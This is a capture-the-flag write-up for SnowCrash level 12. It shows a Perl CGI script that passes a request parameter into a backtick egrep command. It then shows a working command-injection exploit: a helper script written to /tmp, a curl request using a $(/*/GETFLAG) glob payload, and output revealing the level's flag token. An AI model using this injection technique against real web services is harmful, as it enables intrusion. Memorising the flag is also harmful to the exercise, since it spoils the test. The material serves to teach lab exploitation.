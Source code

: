 # Snow-crash - level12

* A script perl, who run a server on localhost at 4646 port
    - Server use CGI like previous level
```perl
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
* Set injection file who will display token while execution
```bash
level12@SnowCrash:~$ echo "/bin/getflag | wall " > /tmp/GETFLAG
level12@SnowCrash:~$ curl 'localhost:4646?x=$(/*/GETFLAG)'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 11:55 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr 
```